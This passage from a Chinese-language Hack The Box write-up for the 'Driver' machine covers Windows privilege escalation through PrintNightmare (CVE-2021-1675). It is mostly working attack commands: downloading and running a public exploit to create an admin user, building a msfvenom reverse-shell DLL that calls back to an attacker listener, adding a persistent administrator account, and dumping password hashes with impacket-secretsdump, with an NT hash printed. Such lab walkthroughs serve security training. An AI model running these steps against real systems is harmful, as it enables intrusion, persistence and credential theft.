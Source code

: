 ```bash
└─$ nxc smb driver.htb -u tony -p liltony -M printnightmare
SMB         10.10.11.106    445    DRIVER           [*] Windows 10 Build 10240 x64 (name:DRIVER) (domain:DRIVER) (signing:False) (SMBv1:True) 
SMB         10.10.11.106    445    DRIVER           [+] DRIVER\tony:liltony 
PRINTNIG... 10.10.11.106    445    DRIVER           Vulnerable, next step https://github.com/ly4k/PrintNightmare
```

###### Exploit

我这里直接使用JohnHammond所编写的利用[脚本](https://github.com/calebstewart/CVE-2021-1675/commits?author=JohnHammond)，当然也可以通过自定义dll文件来实现其他的利用方式

```bash
wget https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/refs/heads/main/CVE-2021-1675.ps1
```

```powershell
upload CVE-2021-1675.ps1
Import-Module .\cve-2021-1675.ps1
Invoke-Nightmare -NewUser "printer" -NewPassword "Pass@word!"
```

这里创建用户后是administrator用户，但是使用evil-winrm登录时候无法登录，可能是限制了administrator权限的用户通过winrm远程登录，这样的话可以自定义一个反弹shell的dll文件，通过printnightmare允许这个dll文件

##### msfvenom生成dll

```bash
msfvenom -p windows/x64/powershell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -f dll -o reverse.dll
sudo rlwrap -Ac nc -lvnp 443
```

```powershell
upload reverse.dll
Import-Module .\cve-2021-1675.ps1
Invoke-Nightmare -DLL "C:\programdata\apps\reverse.dll"
```

执行之后拿下system32权限
#### root.txt

```bash
type C:\users\administrator\desktop\root.txt
```

#### 持久化

通过net user建立一个administrator组的用户，来实现持久化权限（这种方式实战中不推荐使用，很容易被查到）

```powershell
net user drive Pass@word! /add
net localgroup administrators drive /add
```

##### 使用impacket工具包dump hash

```bash
sudo impacket-secretsdump 'drive:Pass@word!'@driver.htb
# 用户名:RID:LM哈希:NT哈希:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d1256cff8b5b5fdb8c327d3b6c3f5017:::
```
